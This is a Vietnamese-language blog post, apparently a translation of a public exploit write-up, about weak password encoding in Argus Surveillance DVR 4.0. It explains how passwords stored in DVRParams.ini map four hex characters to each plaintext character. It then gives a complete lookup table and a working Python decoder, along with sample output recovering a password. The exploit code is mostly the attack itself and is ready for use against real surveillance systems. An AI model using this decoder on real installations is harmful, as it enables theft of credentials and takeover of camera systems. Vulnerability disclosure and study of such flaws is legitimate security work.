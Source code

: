 ```yaml
---
title: Bẻ khóa mật khẩu ứng dụng giám sát camera Argus
date: 19/7/2021
layout: single
header:
  teaser: /assets/images/crack.jpg
---
```

## Mô Tả 
Trong một lần gần đây nhất, tôi đã xem `Argus Surveillance DVR 4.0` đang sử dụng mã hóa yếu cho mật khẩu.

+ Phiên bản:  Argus Surveillance DVR 4.0
+ Tác giả: Salman Asad (@deathflash1411)
+ Thử nghiệm: Windows 7 x86 (Build 7601) & Windows 10

## Khai thác  
Argus Surveillance DVR 4.0 đang lưu trữ cấu hình trong một tệp có tên `DVRParams.ini`nằm trong
 `C:\ProgramData\PY_Software\Argus Surveillance DVR`


![](https://i.imgur.com/KYcjQOM.png)
+ Đã tạo một tài khoản thử nghiệm với kiểm tra tên người dùng và kiểm tra mật khẩu

![](https://i.imgur.com/cbwtBsN.png)
+ Cấu hình đang lưu trữ mật khẩu của người dùng dưới dạng băm 

+ Một điều thú vị  là bốn ký tự đầu tiên và bốn ký tự cuối cùng trong mã băm giống nhau `E03B`vì mật khẩu của  đã được kiểm tra trong đó ký tự đầu tiên và ký tự cuối cùng giống nhau `t`

+ Điều này xác nhận rằng `t=E03B` , Tôi đã giả định rằng mỗi ký tự trong mật khẩu có 4 ký tự trong hàm băm
+ ![](https://i.imgur.com/cZhNqwc.png)
Thật thú vị, hãy thay đổi mật khẩu thành `1234567890` (10 ký tự)
![test](https://i.imgur.com/trhdvQE.png)
+ Đây là hàm băm mật khẩu mới trong `DVRParams.ini`
![](https://i.imgur.com/NM50Tbq.png)
+ Giả định của tôi là đúng vì hàm băm mật khẩu dài chính xác 40 ký tự (10 * 4)

+ Tương tự, tôi đã thay đổi mật khẩu thành `abc...xyz`và `ABC...XYZ`và ghi lại các giá trị cho mỗi ký tự

+ Dựa trên những phát hiện ở trên, tôi đã viết một đoạn mã đơn giản để giải mã hàm băm mật khẩu

Mã khai thác: [exploits/50130](https://www.exploit-db.com/exploits/50130)

```python
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
    print("[!] Error, check your password hash")
    exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
    split.append(pass_hash[index : index + n])

for key in split:
    if key in characters.keys():
        print("[+] " + key + ":" + characters[key])
    else:
        print("[-] " + key + ":Unknown")

```
```powershell
#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] 418D:d
[+] B740:e
[+] F641:a
[+] E03B:t
[+] 956B:h
[+] E1D0:f
[+] 3F7E:l
[+] F641:a
[+] 9083:s
[+] 956B:h
[+] ECB4:1
[+] 53D1:4
[+] ECB4:1
[+] ECB4:1

```

Lưu ý: thay thế giá trị của `pass_hash`trong tập lệnh bằng mã băm mật khẩu bạn lấy được từ `DVRParams.in`

## Cảm Ơn :D


